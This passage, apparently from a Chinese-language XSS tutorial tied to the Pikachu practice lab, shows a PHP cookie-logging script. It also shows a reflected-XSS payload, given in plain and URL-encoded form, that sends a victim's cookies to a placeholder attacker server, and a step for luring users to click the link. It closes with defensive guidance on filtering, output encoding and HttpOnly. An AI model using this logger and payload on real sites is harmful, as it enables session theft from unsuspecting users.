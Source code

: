         // 将获取到的信息记录到文件或数据库
        $log_message = "Time: $time | IP: $ipaddress | Referer: $referer | UserAgent: $useragent | Cookie: $cookie\n";
        file_put_contents('cookies.log', $log_message, FILE_APPEND);

        // (可选) 可以重定向回原始网站，让用户不易察觉
        // header("Location: http://目标URL");
        // exit();
        echo "Logged."; // 或者给个简单响应
    } else {
        echo "No cookie received.";
    }
    ?>
    ```

2.  **构造恶意URL (针对目标网站的反射点)**:
    假设目标网站搜索功能存在反射型XSS，URL为 `http://目标URL/search?query=`，并且 `query` 参数未过滤直接输出。
    构造的恶意 `query` 参数 payload:
    ```html
    <script>document.location='http://恶意URL/logger.php?cookie='+encodeURIComponent(document.cookie);</script>
    ```
    完整的恶意URL:
    ```
    http://目标URL/search?query=%3Cscript%3Edocument.location%3D%27http%3A%2F%2F%E6%81%B6%E6%84%8FURL%2Flogger.php%3Fcookie%3D%27%2BencodeURIComponent(document.cookie)%3B%3C%2Fscript%3E
    ```
    (注意 `恶意URL` 需要替换成真实的攻击者服务器地址，并对 payload 进行 URL 编码)

3.  **诱骗用户点击:** 将上述构造好的恶意URL发送给目标用户。用户点击后，浏览器会执行脚本，将Cookie发送到攻击者的 `logger.php`。

*   **Pikachu靶场类似场景:** Pikachu靶场的管理后台可以收集通过特定payload发送过来的Cookie信息。

## XSS 防御策略

核心思想：**永远不信任用户的输入，对输入进行过滤，对输出进行编码。**

1.  **输入过滤 (Input Filtering/Validation):**
    *   在接收用户输入时，进行严格的格式、类型、长度验证。
    *   使用白名单策略，只允许已知的安全字符和格式通过（如邮箱、电话号码格式验证）。
    *   移除或替换危险字符/标签（如 `<script>`, `onerror`）。
    *   **注意:** 前后端都需要进行验证，不能仅依赖前端验证。

2.  **输出编码 (Output Encoding):**
    *   **最关键的防御手段。** 根据数据输出的上下文（HTML内容、HTML属性、JavaScript、CSS、URL）进行相应的编码。
    *   **HTML实体编码:** 对输出到HTML标签内容或属性中的特殊字符（如 `< > " ' &`）进行编码。
        *   PHP: `htmlspecialchars()` (推荐设置 `ENT_QUOTES | ENT_HTML5` 标志), `htmlentities()`。
        *   Java: OWASP ESAPI `encodeForHTML()`, `encodeForHTMLAttribute()`.
        *   Python (Jinja2/Django): 默认自动转义。
    *   **JavaScript编码:** 对输出到JavaScript代码块或事件处理器中的数据进行编码（如 `\'`, `\"`, `\xHH`）。
    *   **CSS编码:** 对输出到 `<style>` 标签或 `style` 属性中的数据进行编码。
    *   **URL编码:** 对输出到URL参数或路径中的数据进行编码 (`encodeURIComponent()` in JS, `urlencode()` in PHP).

3.  **设置 `HttpOnly` Cookie 标志:**
    *   防止客户端JavaScript通过 `document.cookie` 读取敏感Cookie（如Session ID）。服务器在设置Cookie时添加 `HttpOnly` 标志。
